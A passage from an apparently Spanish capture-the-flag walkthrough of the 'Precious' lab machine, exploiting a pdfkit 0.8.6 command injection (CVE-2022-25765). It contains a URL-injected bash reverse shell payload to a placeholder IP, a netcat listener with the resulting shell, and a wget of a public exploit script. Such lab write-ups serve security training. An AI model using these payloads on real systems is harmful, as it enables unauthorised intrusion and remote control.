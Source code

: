 **Nota**: podríamos intentar capturar todo este proceso en **BurpSuite**, pero hay algo que nos impide inyectar comandos desde ahí, por lo que lo descarte, pero si quieres probar e investigar que es lo que nos impide la inyección de comandos, adelante.

Excelente, de esta forma podemos inyectar comandos, es momento de poner nuestra **Reverse Shell** de confianza para ganar acceso a la máquina:

* No cierres el **servidor HTTP**.

* Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Inyecta la **Reverse Shell**:
```bash
http://Tu_IP:8000/?name=%20`bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1`
```

* Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.189] 43556
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ whoami
whoami
ruby
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

<h2 id="pdfkit2">Buscando un Exploit para pdfkit v0.8.6</h2>

A la hora de buscar un Exploit para esta versión de **pdfkit**, se encunetran un par que nos pueden servir mucho:
* https://github.com/UNICORDev/exploit-CVE-2022-25765
* https://github.com/shamo0/PDFkit-CMD-Injection

Vamos a probar ambos, para ver que tal funcionan.

<br>

<h3 id="pdfkit3">Probando Exploit: CVE-2022–25765 (pdfkit) - Command Injection</h3>

* Primero vamos a descargar este Exploit:
```bash
wget https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2022-25765/main/exploit-CVE-2022-25765.py
https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2022-25765/main/exploit-CVE-2022-25765.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com) conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 7849 (7.7K) [text/plain]
Grabando a: «exploit-CVE-2022-25765.py»
.
exploit-CVE-2022-25765.py                                  100%[=======================================================================================================================================>]   7.67K  --.-KB/s    en 0s      
.
2023-10-04 14:44:54 (24.0 MB/s) - «exploit-CVE-2022-25765.py» guardado [7849/7849]
```
